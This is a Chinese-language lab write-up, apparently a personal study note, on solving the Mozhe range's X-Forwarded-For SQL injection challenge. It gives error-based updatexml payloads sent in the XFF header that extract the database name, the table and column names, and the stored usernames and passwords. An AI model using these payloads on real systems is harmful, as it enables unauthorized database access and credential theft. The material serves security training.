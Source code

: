 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/墨者_XFF注入.md","permalink":"/安全/靶场/墨者_XFF注入/"}
---
```


进去是一个登陆界面
![Pasted image 20240730155230.png](/img/user/picture/Pasted%20image%2020240730155230.png)



随便输一个抓包发现发现会返回ip地址
![Pasted image 20240730155348.png](/img/user/picture/Pasted%20image%2020240730155348.png)
![Pasted image 20240730155356.png](/img/user/picture/Pasted%20image%2020240730155356.png)

这里猜测他在代码中应该是有获取我们ip地址的操作，然后会代入数据库进行查询，所以我们试一下添加XFF头会不会带入查询
`X-Forwarded-For:`


![Pasted image 20240730160041.png](/img/user/picture/Pasted%20image%2020240730160041.png)
![Pasted image 20240730160050.png](/img/user/picture/Pasted%20image%2020240730160050.png)
发现他确实有返回123

加上单引号有报错
![Pasted image 20240730160219.png](/img/user/picture/Pasted%20image%2020240730160219.png)
![Pasted image 20240730160212.png](/img/user/picture/Pasted%20image%2020240730160212.png)

则这里就是一个出入点
开始利用XFF头进行注入



获取到数据库名称
`',updatexml(1,concat(0x7e,(select database()),0x7e),1))#`
![Pasted image 20240730160332.png](/img/user/picture/Pasted%20image%2020240730160332.png)


获取到表名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='webcalendar'),0x7e),1))#
```

![Pasted image 20240730160442.png](/img/user/picture/Pasted%20image%2020240730160442.png)


获取到字段名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='user'),0x7e),1))#
```
![Pasted image 20240730160522.png](/img/user/picture/Pasted%20image%2020240730160522.png)


最后获取到数据是账号和密码
```sql
' or updatexml(1,concat(0x7e,(select group_concat(username,':',password)from user limit 0,1),0x7e),1))#
```
![Pasted image 20240730160558.png](/img/user/picture/Pasted%20image%2020240730160558.png)



![Pasted image 20240730160643.png](/img/user/picture/Pasted%20image%2020240730160643.png)




